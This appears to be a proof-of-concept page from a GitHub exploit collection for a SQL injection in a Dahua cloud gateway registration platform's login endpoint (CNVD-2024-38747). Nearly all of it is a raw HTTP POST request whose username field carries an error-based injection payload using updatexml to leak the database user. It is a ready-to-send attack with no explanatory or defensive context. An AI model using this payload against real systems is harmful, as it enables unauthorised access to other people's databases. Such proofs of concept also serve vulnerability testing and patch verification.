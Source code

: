 # dahua_doLogin_sqli

```
POST /index.php/User/doLogin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

username=1')and+updatexml(1,concat(0x7e,user(),0x7e),1)--+&password=
```

from: https://github.com/wy876/POC/blob/main/%E5%A4%A7%E5%8D%8E/%E5%A4%A7%E5%8D%8E%E6%99%BA%E8%83%BD%E4%BA%91%E7%BD%91%E5%85%B3%E6%B3%A8%E5%86%8C%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E(CNVD-2024-38747).md
